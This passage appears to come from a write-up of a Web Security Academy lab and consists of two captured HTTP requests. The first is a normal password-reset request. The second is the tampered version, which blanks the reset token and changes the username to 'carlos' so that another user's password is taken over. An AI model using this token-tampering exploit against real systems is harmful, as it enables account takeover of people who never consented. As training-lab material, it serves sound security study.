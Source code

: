 ```
Cookie: session=lTHxOhZ3Bx8s6HXJnTqhPByn4OpVhvFz
Content-Length: 117
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Origin: https://0a3d00490439880f8048035900340023.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3d00490439880f8048035900340023.web-security-academy.net/forgot-password?temp-forgot-password-token=j6upkce94j1j0xo9yvtcj920maxxj1t8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

temp-forgot-password-token=j6upkce94j1j0xo9yvtcj920maxxj1t8&username=wiener&new-password-1=peter&new-password-2=peter
```


**This was the manipulated request :** as told to do in step 6
```
POST /forgot-password?temp-forgot-password-token=x HTTP/2
Host: 0a3d00490439880f8048035900340023.web-security-academy.net
Cookie: session=lTHxOhZ3Bx8s6HXJnTqhPByn4OpVhvFz
Content-Length: 86
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Origin: https://0a3d00490439880f8048035900340023.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3d00490439880f8048035900340023.web-security-academy.net/forgot-password?temp-forgot-password-token=j6upkce94j1j0xo9yvtcj920maxxj1t8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

temp-forgot-password-token=x&username=carlos&new-password-1=peter&new-password-2=peter
```
